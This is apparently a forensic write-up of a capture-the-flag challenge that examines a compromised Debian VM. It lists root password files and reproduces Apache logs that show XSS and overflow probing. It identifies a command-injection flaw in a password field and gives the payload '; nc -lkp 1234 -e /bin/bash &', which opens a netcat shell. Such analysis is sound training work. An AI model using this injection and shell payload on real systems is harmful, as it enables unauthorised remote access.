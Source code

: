 ##### potential root passwords
```
ls -l /home/root/
total 8
-rwx------ 1 root root 21 Nov 23 13:11 root_pw
-rwx------ 1 root root 22 Nov 23 12:57 Rul0rzZrootPw
cat /home/root/root_pw
2Has21sjJ0w3/?dee82H

cat /home/root/Rul0rzZrootPw
JDWbwz334aawefHHwf/)2
```

After resetting the VM the root password proves to be  
_JDWbwz334aawefHHwf/)_

#### Compromise vector (answer to question 1)
Customer access does not sanitize user input
by using adding ";" to the password (and therewith ending the current command), users run shell commands.

**possibility:**  
`; nc -lkp 1234 -e /bin/bash &`  
this spawns a nc listener using bash - from here we can run whatever to call back to our system

##### Apache logs on the system
```
/var/log/apache2/access.log
92.168.1.11 - - [24/Nov/2016:09:28:13 +0100] "GET /index.php HTTP/1.1" 200 1987 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0"
192.168.1.11 - - [24/Nov/2016:09:28:51 +0100] "GET /index.php?password=password&file=hack HTTP/1.1" 200 1999 "http://192.168.1.10/originalIndex.php" "Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0"
192.168.1.11 - - [24/Nov/2016:09:29:02 +0100] "GET /index.php?password=%22%3Exss&file=hack HTTP/1.1" 200 1991 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0"
192.168.1.11 - - [24/Nov/2016:09:29:09 +0100] "GET /index.php?password=%22%3E%3Cxss&file=hack HTTP/1.1" 200 1991 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0"
192.168.1.11 - - [24/Nov/2016:09:29:19 +0100] "GET /index.php?password=%27%20ssss&file=hack HTTP/1.1" 200 1991 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0"
192.168.1.11 - - [24/Nov/2016:09:29:26 +0100] "GET /index.php?password=AAAAAAAAA&file=hack HTTP/1.1" 200 1999 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0"
192.168.1.11 - - [24/Nov/2016:09:29:32 +0100] "GET /index.php?password=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaAAAAAA&file=hack HTTP/1.1" 200 1991 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0"
[LOGS CUT BY HACKER]
```

The relevant access-logs have been cleaned by the hacker, we need to restore this portion.

using 7z and extracting first the image challange.ova - then the Debian-disk1.vmdk to get access to the Image file.

using strings in combination with grep we get the log files:
